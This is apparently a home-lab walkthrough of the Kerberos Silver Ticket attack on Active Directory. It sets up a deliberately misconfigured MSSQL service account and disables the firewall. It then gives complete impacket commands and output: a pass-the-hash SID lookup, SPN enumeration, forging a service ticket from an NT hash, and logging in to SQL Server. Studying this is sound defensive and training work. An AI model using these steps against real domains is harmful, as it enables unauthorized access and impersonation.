



# 🔐 **Silver Ticket**

A **Silver Ticket attack** is a type of **Kerberos-based attack** in Active Directory where an attacker forges a **service ticket (TGS)** to access a specific service on a domain-joined machine without interacting with the domain controller after the initial compromise.

---

###  **What is a Silver Ticket?**

In Kerberos authentication, there are two main types of tickets:

1. **TGT (Ticket Granting Ticket)** – Used to request service tickets. Issued by the **Key Distribution Center (KDC)**.
2. **TGS (Ticket Granting Service)** ticket – Used to authenticate to a **specific service** like MSSQL, CIFS, HTTP, etc.

A **Silver Ticket** is a forged **TGS ticket** for a **specific service**, created and signed by an attacker who has the service account’s **NTLM hash** (i.e., password hash of the service account).

---

In order to craft a silver ticket, testers need to find the target service account's RC4 key (i.e. NT hash) or AES key (128 or 256 bits). This can be done by capturing an NTLM response (preferably NTLMv1) and cracking it, by dumping LSA secrets, by doing a DCSync, etc.


---

##  **Normal Kerberos Authentication (Legitimate Flow)**

###  Goal: Access a network service (like CIFS, HTTP, MSSQL)

###  Steps:

1. **User logs in** → Gets a **TGT (Ticket Granting Ticket)** from the **KDC/Domain Controller** (encrypted with the `krbtgt` hash).
2. User sends the **TGT** to the **KDC** to request access to a specific **service (SPN)**.
3. KDC returns a **TGS (Service Ticket)** encrypted with the **service account’s NTLM hash**.
4. User presents the **TGS** to the **target service** (e.g., file server, web server).
5. Service decrypts the TGS with its own key and grants access.

>  All communication goes through the **Domain Controller (DC)**, which validates identity and issues tickets.

---

##  **Silver Ticket Attack (Forged TGS)**

###  Goal: Access a service **without contacting the Domain Controller**

###  Steps:

1. Attacker compromises a service account and **dumps its NTLM hash** (e.g., `MSSQLSvc/srv01.corp.local` or `SRV01$` for a computer account).
2. Attacker uses a tool like `mimikatz` or `ticketer.py` to **forge a TGS** (Silver Ticket), using:

   * Domain name
   * Domain SID
   * Service account name
   * SPN
   * NTLM hash of the service account
3. The forged TGS is **injected into memory** (e.g., with `/ptt` in mimikatz).
4. The attacker sends this **fake TGS directly to the service** (e.g., CIFS, MSSQL).
5. Since the service uses the correct NTLM key to decrypt the TGS, it **accepts it as valid**, and the attacker gets access.

>  No interaction with the Domain Controller is needed once the TGS is forged.

---

##  **Key Differences Between Normal and Silver Ticket**

| Feature                        | Normal Ticket                            | Silver Ticket (Attack)                      |
| ------------------------------ | ---------------------------------------- | ------------------------------------------- |
|  Who issues the TGS?         | Domain Controller (KDC)                  | Attacker (forges it manually)               |
|  Who signs the ticket?       | KDC (using service account key)          | Attacker (using stolen NTLM hash)           |
|  Domain Controller involved? | Yes – TGT and TGS request go through KDC | No – after getting NTLM hash, DC not needed |
|  Target                      | Any service with SPN                     | Only specific service tied to that SPN      |
|  Can access Domain Services? | Yes, if allowed                          | No – only that specific service             |
|  Detection risk              | Easier to log/audit centrally            | Harder – logs only show service access      |

---


### Point

**Silver Ticket**, you can only access **specific services** tied to the **service account whose hash you have**.

---

##  What You *Can* Access with a Silver Ticket:

You can impersonate a user and access services like:

| Service           | SPN Example                      | Use Case                              |
| ----------------- | -------------------------------- | ------------------------------------- |
| CIFS (File share) | `CIFS/ServerName`                | Access file shares                    |
| HTTP              | `HTTP/webserver.domain.local`    | Access internal web apps              |
| MSSQL             | `MSSQLSvc/dbserver.domain.local` | Query SQL Server as impersonated user |
| HOST              | `HOST/ServerName`                | RDP or remote execution via `PsExec`  |

As long as you forge a valid **TGS (ticket-granting service ticket)** and the target service **can decrypt it**, you’re in.

---

## ❌ What You *Cannot* Access:

* You **cannot request new tickets from the Domain Controller**, because:

  * You don’t have a valid TGT.
  * The DC didn't issue your Silver Ticket — so it doesn't trust it.
* You **cannot access other services** that require a different SPN/service account.

---

##  Think of It Like This:

**Golden Ticket** = forged **master key** to the kingdom (full domain).

**Silver Ticket** = forged **room key** to one specific service.

---


## Steps for Setting Silver Ticket Misconfiguration

### 1. Create a New User
Create a new user account named `sql_user`.

### 2. Configure SQL Service
Open the **Services** manager:

- Press `Win + R`, type `services.msc`, and hit Enter.
- Locate a service to configure (e.g., `MSSQL`).



### 3. Modify Service Logon
- Right-click the selected service → **Properties** → **Log On** tab.
- Choose "This account", browse for `sql_user`, and enter its password.



### 4. Restart the Service
Restart the service to apply the changes.

### 5. Assign a Service Principal Name (SPN)

Use the following commands in PowerShell:

```bash
setspn -A MSSQLSvc/DC01-FURIOUS5.furious.local:1433 furious\sql_user
setspn -L furious\sql_user
````



### 6. (Optional) Create SQL Login for the Domain User

If the user `sql_user` doesn't exist in the SQL database:

```sql
CREATE LOGIN [LAB\sql_user] FROM WINDOWS;
ALTER SERVER ROLE sysadmin ADD MEMBER [LAB\sql_user];
```

---

### Additional Configuration

#### Disable Firewall (for testing purposes only):

```powershell
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
```

#### SQL Server Configuration Check

On the target machine (DC01-FURIOUS5):

1. Open **SQL Server Configuration Manager**.
2. Navigate to:

   * `SQL Server Network Configuration` → `Protocols for MSSQLSERVER`.
   * Ensure `TCP/IP` is **enabled**.
3. Under the **IP Addresses** tab, ensure SQL Server is listening on **port 1433**.

---

### Confirming Port Availability

Use `netcat` to test if port 1433 is open from your Kali machine:

```bash
nc -zv DC01-FURIOUS5.furious.local 1433
```

Sample outputs:

```text
DC01-FURIOUS5.furious.local [192.168.129.140] 1433 (ms-sql-s) : Connection refused
```

or

```text
DC01-FURIOUS5.furious.local [192.168.129.140] 1433 (ms-sql-s) open
```

---

### Final Step

Restart the SQL service again to ensure all configuration changes are applied.


## Attack

Let's suppose we have a hash for the user:

```

furious.local\sql\_user:1118\:aad3b435b51404eeaad3b435b51404ee\:d357369b3b468d80639b09d997195302:::

```

### Step 1: Get the Domain SID

Use the following command to get the domain SID:

```bash
impacket-lookupsid -hashes 'LMhash:NThash' 'DOMAIN/DomainUser@DomainController' 0
````

Example output:

```
┌──(kali㉿kali)-[~/Home-lab/Kerbrose/forged-ticket/silver-ticket]
└─$ impacket-lookupsid  -hashes aad3b435b51404eeaad3b435b51404ee:d357369b3b468d80639b09d997195302 furious.local/sql_user@furious.local

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Brute forcing SIDs at furious.local
[*] StringBinding ncacn_np:furious.local[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-3290932372-4080220911-1111251399
```

### Step 2: Get the User SPN

Now, use the tool `impacket-GetUserSPNs` to get the user SPN. For example, if we have credentials for user `jack` with password `complex1@`:

```bash
impacket-GetUserSPNs furious.local/jack:complex1@ -dc-ip 192.168.129.140
```

Example output:

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

ServicePrincipalName                       Name      MemberOf                                                   PasswordLastSet             LastLogon                   Delegation 
-----------------------------------------  --------  ---------------------------------------------------------  --------------------------  --------------------------  ----------

MSSQLSvc/DC01-FURIOUS5.furious.local:1433  sql_user                                                             2025-05-05 11:14:54.950789  2025-05-05 11:24:09.700971             
```

### Step 3: Create the Silver Ticket

Use the following command to generate the silver ticket:

```bash
impacket-ticketer -nthash "d357369b3b468d80639b09d997195302" -domain-sid "S-1-5-21-3290932372-4080220911-1111251399" -domain "furious.local" -spn "MSSQLSvc/DC01-FURIOUS5.furious.local:1433" "sql_user"
```

Example output:

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for furious.local/sql_user
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in sql_user.ccache
```
### Step 4: Export the Ticket

```
export KRB5CCNAME=sql_user.ccache
```
verify it using  `klist`

```
klist
```
```
┌──(kali㉿kali)-[~/Home-lab/Kerbrose/forged-ticket/silver-ticket]
└─$ export KRB5CCNAME=sql_user.ccache
                                                                                                         
┌──(kali㉿kali)-[~/Home-lab/Kerbrose/forged-ticket/silver-ticket]
└─$ klist
Ticket cache: FILE:sql_user.ccache
Default principal: sql_user@FURIOUS.LOCAL

Valid starting       Expires              Service principal
05/06/2025 02:01:42  05/04/2035 02:01:42  MSSQLSvc/DC01-FURIOUS5.furious.local:1433@FURIOUS.LOCAL
        renew until 05/04/2035 02:01:42
                                                                                                         
┌──(kali㉿kali)-[~/Home-lab/Kerbrose/forged-ticket/silver-ticket
```

### Step 5: Login using MSSQL Client

Finally, use the following command to log in using the MSSQL client:

```bash
impacket-mssqlclient furious.local/sql_user@DC01-FURIOUS5.furious.local  -k -no-pass
```

```
┌──(kali㉿kali)-[~/Home-lab/Kerbrose/forged-ticket/silver-ticket]
└─$ impacket-mssqlclient furious.local/sql_user@DC01-FURIOUS5.furious.local -k -no-pass 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(dc01-furious5): Line 1: Changed database context to 'master'.
[*] INFO(dc01-furious5): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (160 3232) 
[!] Press help for extra shell commands
SQL (FURIOUS\Administrator  dbo@master)> 
SQL (FURIOUS\Administrator  dbo@master)> 
SQL (FURIOUS\Administrator  dbo@master)> 
```
